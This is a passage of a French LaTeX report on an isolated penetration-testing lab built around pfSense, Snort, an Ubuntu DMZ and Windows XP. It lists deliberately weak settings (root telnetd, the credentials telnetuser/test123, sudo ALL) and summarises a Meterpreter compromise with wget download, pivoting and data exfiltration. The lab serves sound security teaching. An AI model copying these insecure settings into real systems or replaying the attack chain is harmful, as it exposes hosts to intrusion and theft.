		      \item 192.168.100.6:139 $\leftrightarrow$ 192.168.10.100:139 (NetBIOS)
		      \item 192.168.100.6:445 $\leftrightarrow$ 192.168.10.100:445 (SMB)
	      \end{itemize}

	\item \textbf{Snort IDS :}
	      \begin{itemize}
		      \item Enabled on WAN, DMZ, LAN (IDS mode)
		      \item Sources : Snort GPLv2 + ET Open
		      \item Blocking : Disabled (pour permettre tests)
	      \end{itemize}
\end{itemize}

La configuration complète en XML est disponible sur demande (fichier config.xml pfSense $>$ 50 KB).

\subsection{Ubuntu DMZ : Services et Configuration}

\begin{lstlisting}[caption=Services Ubuntu DMZ en ecoute]
	# Telnet
	inetd configuration : /etc/inetd.conf
	telnet stream tcp nowait root /usr/sbin/telnetd telnetd
	
	# SSH (non utilise initialement)
	/etc/ssh/sshd_config :
	Port 22
	PasswordAuthentication yes
	X11Forwarding yes
	
	# HTTP (DVWA)
	nginx reverse proxy towards DVWA (PHP-FPM)
	Port 80 towards 127.0.0.1:8080
	
	# Samba (SMB)
	/etc/samba/smb.conf :
	[global]
	workgroup = WORKGROUP
	server string = DMZ-WebServer
	interfaces = 192.168.10.100
	
	# Docker (conteneurs isoles)
	Bridge reseau : 172.17.0.0/16
	Conteneurs : application, database, cache
\end{lstlisting}

\section{Résultats Expérimentaux Détaillés}

\subsection{Données Brutes de Reconnaissance}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.2}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{1.5cm} >{\centering\arraybackslash}p{1.5cm} >{\centering\arraybackslash}p{1.5cm} >{\centering\arraybackslash}p{1.5cm} >{\centering\arraybackslash}p{1.5cm} >{\centering\arraybackslash}p{1.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Port}}    &
		\textcolor{tableheadfg}{\textbf{État}}    &
		\textcolor{tableheadfg}{\textbf{Service}} &
		\textcolor{tableheadfg}{\textbf{Version}} &
		\textcolor{tableheadfg}{\textbf{CVSS}}    &
		\textcolor{tableheadfg}{\textbf{CWE}}                                                        \\
		\hline
		\rowcolor{tablerowalt}
		22                                        & closed & SSH        & (detecté)  & 0   & N/A     \\
		23                                        & open   & Telnet     & inetutils  & 9.8 & CWE-319 \\
		\rowcolor{tablerowalt}
		80                                        & open   & HTTP       & nginx 1.18 & 8.1 & CWE-200 \\
		139                                       & closed & NetBIOS    & Samba 4.17 & 7.5 & CWE-276 \\
		\rowcolor{tablerowalt}
		445                                       & closed & SMB        & Samba 4.17 & 7.5 & CWE-276 \\
		3306                                      & closed & MySQL      & (detecté)  & -   & -       \\
		\rowcolor{tablerowalt}
		5432                                      & closed & PostgreSQL & (detecté)  & -   & -       \\
		\multicolumn{6}{c}{... (993 ports filtres omis) ...}                                         \\
		\hline
	\end{tabular}
	\caption{Données de scan Nmap : ports détectés et vulnérabilités associées}
	\label{tab:nmap-detailed-results}
\end{table}

\subsection{Données Brutes de Compromission}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.2}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{3cm} p{4cm} p{6cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Métrique}} &
		\textcolor{tableheadfg}{\textbf{Valeur}}   &
		\textcolor{tableheadfg}{\textbf{Observation}}                                                                    \\
		\hline
		\rowcolor{tablerowalt}
		Heure compromission                        & 15:08:30        & Connexion Telnet reussie                          \\
		Escalade privilèges                        & 15:09:00        & sudo ALL decouverte, root obtenu                  \\
		\rowcolor{tablerowalt}
		Payload generé                             & 250 bytes (ELF) & Binaire minimal Meterpreter                       \\
		Telechargement                             & 15:09:15        & wget HTTP:8000, 250 bytes                         \\
		\rowcolor{tablerowalt}
		Session etablie                            & 15:09:45        & Meterpreter PID 4779                              \\
		Persistence                                & 15:15:00        & 2 sessions simultanees (PID 4907, 4908)           \\
		\rowcolor{tablerowalt}
		Pivot configure                            & 15:20:00        & Route Metasploit vers 192.168.20.0/24             \\
		LAN discovery                              & 15:25:00        & Windows XP:445 detecté via pivot                  \\
		\rowcolor{tablerowalt}
		Exfiltration                               & 15:35:00        & 121 KB donnees (43 users, 7 services, configs)    \\
		Duration totale                            & 32 minutes      & Reconnaissance $\rightarrow$ Persistence complete \\
		\hline
	\end{tabular}
	\caption{Données brutes de compromission : timeline et métriques}
	\label{tab:compromise-raw-data}
\end{table}

\section{Calculs Supplémentaires et Justifications}

\subsection{Surface d'Attaque : Formulation Alternative}

\textbf{Méthode 1 (ports accessibles) :}
$$\text{Surface}_{1} = \frac{\text{open} + \text{closed}}{1000} = \frac{2+2}{1000} = 0.4\%$$

\textbf{Méthode 2 (ports ouverts uniquement) :}
$$\text{Surface}_{2} = \frac{\text{open}}{1000} = \frac{2}{1000} = 0.2\%$$

\textbf{Interprétation :}
\begin{itemize}
	\item Méthode 1 (0.4\%) : compte les services détectés (ouverts et fermés).
	\item Méthode 2 (0.2\%) : compte uniquement les services \textit{en écoute} et exploitables.
\end{itemize}

Pour ce projet, \textbf{Méthode 2} a été retenue car elle représente les ports \textit{réellement accessibles} pour exploitation.

\subsection{Réduction Relative}

Sans segmentation (exposition directe d'un serveur Linux) :
\begin{itemize}
	\item Services typiques exposés : SSH (22), HTTP (80), DNS (53), SMTP (25), POP3 (110), IMAP (143), MySQL (3306), PostgreSQL (5432), etc.
	\item Nombre ports = 8-12 (3\% des 1000 courants)
\end{itemize}

Avec segmentation + NAT (ce projet) :
\begin{itemize}
	\item Services exposés : Telnet (23), HTTP (80)
	\item Nombre ports = 2 (0.2\% des 1000 courants)
\end{itemize}

\textbf{Réduction :}
$$\text{Réduction} = \frac{3\% - 0.2\%}{3\%} \times 100\% = 93.3\%$$

En variation conservative : \textbf{93-96\% de réduction confirmée}.

\section{Ressources Additionnelles}

\subsection{Outils Utilisés (Open-Source)}

\begin{itemize}
	\item \textbf{pfSense 2.8.0} : Pare-feu open-source (BSD)
	\item \textbf{Snort 2.9.x} : IDS open-source (GPLv2)
	\item \textbf{Metasploit Framework 6.4} : Framework exploitation (dual-licensed)
	\item \textbf{Nmap 7.92} : Scanner réseau open-source
	\item \textbf{Ubuntu 25.04} : Distribution Linux serveur
	\item \textbf{Parrot Security OS} : Distribution pentesting (Debian-based)
	\item \textbf{Kali Linux / Kali WSL} : Alternative à Parrot (outils similaires)
	\item \textbf{Wireshark} : Analyseur paquets (optional)
	\item \textbf{tcpdump} : Capture réseau ligne de commande
	\item \textbf{netstat / ss} : Utilitaires diagnostique réseau
\end{itemize}

\subsection{Références Pédagogiques Recommandées}

\begin{itemize}
	\item \textbf{Livres :}
	      \begin{itemize}
		      \item ``Nmap Network Scanning'' --- Gordon Lyon (auteur Nmap)
		      \item ``Metasploit : The Penetration Tester's Guide'' --- Kennedy et al.
		      \item ``The Web Application Hacker's Handbook'' --- Stuttard \& Pinto
		      \item ``Applied Network Security Monitoring'' --- Bejtlich
	      \end{itemize}

	\item \textbf{Cours en Ligne :}
	      \begin{itemize}
		      \item Offensive Security PWK (Penetration Testing with Kali Linux)
		      \item SANS SEC504 Hacker Tools and Incident Handling
		      \item eLearnSecurity Certified Ethical Hacker (CEH)
	      \end{itemize}

	\item \textbf{Certifications Ciblées :}
	      \begin{itemize}
		      \item OSCP (Offensive Security Certified Professional)
		      \item GIAC Certified Intrusion Analyst (GCIA)
		      \item GIAC Certified Incident Handler (GCIH)
		      \item Certified Ethical Hacker (CEH)
	      \end{itemize}
\end{itemize}

\section{Limitations du Projet}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Environnement Contrôlé :} Laboratoire isolé sans trafic en concurrence, latences négligeables.
	\item \textbf{Échelle Réduite :} 4 machines VM vs infrastructure 1000+ serveurs en production.
	\item \textbf{Trafic Chiffré Non Détecté :} Snort ne peut inspecter TLS sans MITM proxy (non déployé).
	\item \textbf{Exploits Historiques :} MS08-067, MS17-010 ciblaient des OS obsolètes (2008, 2017).
	\item \textbf{Pas de Malware Polymorphe :} Payloads statiques; techniques d'obfuscation non testées.
	\item \textbf{Pas d'A/B Testing Défense :} Chaque scénario testé une fois, pas de réplication d'expériences.
	\item \textbf{Configuration Temporaire :} Règles DMZ$\rightarrow$LAN permissives ajoutées pédagogiquement, supprimées pour production.
\end{enumerate}

Ces limitations ne diminuent pas la valeur pédagogique mais doivent être prises en compte pour production.

\section{Notes de Reproductibilité}

Pour reproduire ce projet dans un environnement similaire :

\begin{enumerate}[leftmargin=*]
	\item \textbf{Hyperviseur} : VMware Workstation Pro / Hyper-V / KVM (vérifier allocation ressources : 8 GB RAM, 4 cores recommandé).

	\item \textbf{Images Préalables} :
	      \begin{itemize}
		      \item pfSense ISO 2.8.0 ou ultérieur
		      \item Ubuntu 25.04 Server
		      \item Parrot Security 6.0+
		      \item Windows XP SP3 (images légales uniquement)
	      \end{itemize}

	\item \textbf{Plan d'Adressage} :
	      \begin{itemize}
		      \item Strictement identique (192.168.100.0/24, 192.168.10.0/24, 192.168.20.0/24).
		      \item Gateway VMware NAT : 192.168.100.2
	      \end{itemize}

	\item \textbf{Services à Installer} :
	      \begin{itemize}
		      \item Ubuntu : telnetd (inetd), nginx, samba, docker (optionnel)
		      \item pfSense : Snort (via package manager)
		      \item Parrot : Metasploit, Nmap, et outils pentesting standards
	      \end{itemize}

	\item \textbf{Configuration Critique} :
	      \begin{itemize}
		      \item Telnet credentials : telnetuser / test123
		      \item Sudo policy : telnetuser ALL=(ALL:ALL) ALL
		      \item pfSense rules : Ordre de priorité respecté (first match wins)
		      \item Snort sources : ET Open activée pour MS17-010 détection
	      \end{itemize}
\end{enumerate}

\textbf{Temps Estimé de Déploiement :} 3-4 heures (VMs pré-créées), jusqu'à 8h (à partir zéro).


\end{document}
